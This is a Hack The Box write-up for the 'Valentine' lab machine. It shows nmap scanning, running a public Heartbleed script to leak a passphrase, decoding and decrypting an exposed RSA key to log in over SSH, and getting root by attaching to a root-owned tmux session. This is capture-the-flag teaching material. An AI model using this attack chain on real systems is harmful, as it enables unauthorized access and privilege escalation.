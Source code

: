 ```yaml
---
layout: post
title: Hack The Box - Valentine Writeup
date: 2024-06-25 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![valentineBadge.png](/assets/img/Valentine/valentineBadge.png)

## Summary

 Nmap revealed that server is vulnerable to `Heartbleed`. By exploiting this, I was able to retrieve memory leak which contained base64 encoded string that decodes to `heartbleedbelievethehype`. 
By brute-forcing directories on port 80, I discovered the `/dev/` directory, which contained `hype_key` file. After inspecting contents of `hype_key`, I was able to determine that it is hex encoded. I used `xxd` for decoding. Decoded file proved to be encrypted `rsa` key. After decrypting file with `openssl`, I was able to `ssh` into the system as user `hype`. Enumerating system with `linpeas.sh` revealed that root is running `/usr/bin/tmux -S /.devs/dev_sess` command. To get access to this `tmux` session we can replicate the same command. 


## Reconnaissance

### Nmap

```
nmap -sV -sC -p- -oN ./nmapAll.txt --max-retries=1 10.10.10.79
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 964c51423cba2249204d3eec90ccfd0e (DSA)
|   2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
|_  256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2024-06-25T00:39:21+00:00; -1s from scanner time.
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
nmap --script vuln 10.10.10.79
```

![nmapVuln.png](/assets/img/Valentine/nmapVuln.png)

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 80, 443 |

#### Port 80/443

##### Heartbleed Bug
 
 Nmap revealed that server is vulnerable to [Heartbleed](https://heartbleed.com/). For exploitation, I used this python [script](https://gist.github.com/eelsivart/10174134) which resulted in the leakage of a portion of memory containing the `$text` variable. 

```
python2 heartbleed.py 10.10.10.79 -p 443
```

![exploit.png](/assets/img/Valentine/exploit.png)

String looks like it's base64 encoded. Decoding it returns string `heartbleedbelievethehype`.

![decode.png](/assets/img/Valentine/decode.png)

##### Website

![80-443.png](/assets/img/Valentine/80-443.png)

##### Dirsearch

```
dirsearch -e php,asp,aspx,jsp,py,txt,conf,config,bak,backup,swp,old,db,sql -u http://valentine.htb
```

![dirsearch.png](/assets/img/Valentine/dirsearch.png)

##### Directory /dev

`/dev` directory contains interesting `hype_key` file. The name of the file suggests that it is some sort of key. 

![dev.png](/assets/img/Valentine/dev.png)

By inspecting contents of `hype_key`, I could determine that it is hex encoded. To decode it I used `xxd`.

```
cat hype_key | xxd -r -p > id_rsa_enc
```

![sshEnc.png](/assets/img/Valentine/sshEnc.png)

Inspecting decoded file reveals that key is encrypted. We can use `openssl` for decryption. For pass phrase I used `heartbleedbelievethehype`. 

```
openssl rsa -in id_rsa_enc -out id_rsa
```

![rsaDecrypt.png](/assets/img/Valentine/rsaDecrypt.png)


## Initial Foothold

### SSH - hype

With decrypted `rsa` key, I was able to `ssh` into the system as user `hype`.

```
ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i id_rsa hype@10.10.10.79
```

![ssh.png](/assets/img/Valentine/ssh.png)

### User.txt

![userFlag.png](/assets/img/Valentine/userFlag.png)


## Privilege Escalation

### System Enumeration

#### Linpeas

Running `linpeas.sh` revealed that `root` is running `/usr/bin/tmux -S /.devs/dev_sess` command. 
 
![linpeas.png](/assets/img/Valentine/linpeas.png)

To access this `tmux` session, I used the same command. 

```
/usr/bin/tmux -S /.devs/dev_sess 
```

Running this command resulted in error: `open terminal failed: missing or unsuitable terminal: tmux-256color`, which can be fixed by this command:

```
export TERM=xterm
```

After that I was able to connect to `tmux` session with root privileges.

![root.png](/assets/img/Valentine/root.png)



